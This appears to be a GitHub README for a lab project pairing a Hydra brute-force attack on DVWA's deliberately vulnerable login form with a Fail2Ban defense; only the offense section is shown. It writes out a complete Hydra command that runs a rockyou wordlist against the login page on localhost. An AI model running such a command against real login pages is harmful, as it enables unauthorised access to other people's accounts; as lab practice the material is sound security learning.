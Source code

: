 
# DVWA Brute Force + Fail2Ban Defense

This project demonstrates a common real-world attack—**brute-forcing a web login page using Hydra**—and a basic blue team defense using **Fail2Ban** to detect and prevent it.

---

## 🔴 Offense: Brute-Force with Hydra

**Tools used:**  
- Kali Linux  
- Hydra  
- DVWA (Damn Vulnerable Web App)

**Attack goal:**  
Crack weak passwords on DVWA's login form using a wordlist attack with Hydra.

**Hydra command used:**
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Login failed"
